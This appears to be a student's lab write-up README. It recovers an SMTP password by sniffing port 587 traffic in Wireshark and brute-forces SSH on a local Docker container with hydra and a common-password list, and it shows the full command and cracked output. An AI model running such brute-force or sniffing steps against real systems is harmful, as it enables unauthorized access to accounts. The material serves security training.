 # attack_is_the_best_defense

## Task 0

- Just use wireshark with filter tcp.port = 587
- Start listenening and execute the script `user_authenticating_into_server`
- Check the command line packets or search for password key word
- The base64 password is `bXlwYXNzd29yZDk4OTgh7` use any online base64 encode/decode tool to get the password `mypassword9898!`

## Task 1

- Use hydra tool to bruteforce the ssh account password for the user `sylvain`
- The docker image `sylvainkalache/264-1`
- Find your own passwords dictionary online, I used [this one](https://github.com/danielmiessler/SecLists/blob/master/Passwords/2020-200_most_used_passwords.txt)

```sh
docker run -p 2222:22 --name my_server -d -ti sylvainkalache/264-1
```

- I used the `hydra-wizard` tool to build my command according to my case

```sh
$ hydra -l sylvain -P 2020-200_most_used_passwords.txt -u  -s 2222  0.0.0.0:2222 ssh
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-08-31 23:04:45
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 197 login tries (l:1/p:197), ~13 tries per task
[DATA] attacking ssh://0.0.0.0:2222/
[2222][ssh] host: 0.0.0.0   login: sylvain   password: password123
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 9 final worker threads did not complete until end.
[ERROR] 9 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-08-31 23:05:34
```

The password is `password123`
